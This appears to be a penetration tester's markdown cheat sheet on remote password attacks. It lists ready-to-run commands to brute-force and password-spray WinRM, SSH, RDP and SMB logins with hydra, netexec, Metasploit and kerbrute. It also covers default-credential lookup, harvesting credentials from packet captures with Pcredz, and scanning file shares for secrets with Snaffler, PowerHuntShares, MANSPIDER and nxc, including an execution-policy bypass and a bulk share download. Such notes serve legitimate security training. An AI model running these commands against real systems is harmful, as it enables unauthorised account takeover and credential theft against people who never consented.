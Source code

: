 # Remote Password Attacks

## Network Services and Credential Hunting

**Winrm**
````
$ netexec winrm <IP> -u user.list -p password.list
````

**Hydra: ssh, smb, rdp**
````
$ hydra -L user.list -P password.list ssh://<IP>
$ hydra -L user.list -P password.list rdp://<IP>
$ hydra -L user.list -P password.list smb://<IP>
$ hydra -l username -P password.list <service>://<ip>
------------------------------------------------
- Metasploit SMB -
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list
msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197
msf6 auxiliary(scanner/smb/smb_login) > set rhosts <IP>
````

**Password Spraying**
````
$ netexec smb <IP>/24 -u <usernames.list> -p 'ChangeMe123!'
$ kerbrute passwordspray -d test.local domain_users.txt password123
````

**Credential Stuffing**

https://github.com/ihebski/DefaultCreds-cheat-sheet
````
$ creds search linksys
$ creds search tomcat
$ creds search <service>
````

## Credential Hunting

**Network Traffic**

Pcredz is a tool that can be used to extract credentials from live traffic or network packet captures. Specifically, it supports extracting the following information:

Credit card numbers
POP credentials
SMTP credentials
IMAP credentials
SNMP community strings
FTP credentials
Credentials from HTTP NTLM/Basic headers, as well as HTTP Forms
NTLMv1/v2 hashes from various traffic including DCE-RPC, SMBv1/2, LDAP, MSSQL, and HTTP
Kerberos (AS-REQ Pre-Auth etype 23) hashes
````
https://github.com/lgandx/PCredz
$ ./Pcredz -f demo.pcapng -t -v
````

**Network Shares**

Common credential patterns:

- Look for keywords within files such as passw, user, token, key, and secret.
- Search for files with extensions commonly associated with stored credentials, such as .ini, .cfg, .env, .xlsx, .ps1, and .bat.
- Watch for files with "interesting" names that include terms like config, user, passw, cred, or initial.

**Hunting from Windows**

Snaffler
````
c:\Users\Public>Snaffler.exe -s
````

PowerHuntShares
````
# Bypass execution policy restrictions
> Set-ExecutionPolicy -Scope Process Bypass
# Import module that exists in the current directory
> Import-Module .\PowerHuntShares.psm1
> Invoke-HuntSMBShares -Threads 100 -OutputDirectory c:\Users\Public
````

**Hunting from Linux**

MANSPIDER
````
https://github.com/blacklanternsecurity/MANSPIDER
$ docker run --rm -v ./manspider:/root/.manspider blacklanternsecurity/manspider <IP> -c 'passw' -u '<user>' -p '<password>'
````

NetExec
````
$ nxc smb <IP> -u <user> -p '<user>' --spider <share> --content --pattern "passw"
$ nxc smb <IP> -u '<user>' -p '<user>' --shares -M spider_plus -o DOWNLOAD_FLAG=True (Dwonload all files)
````

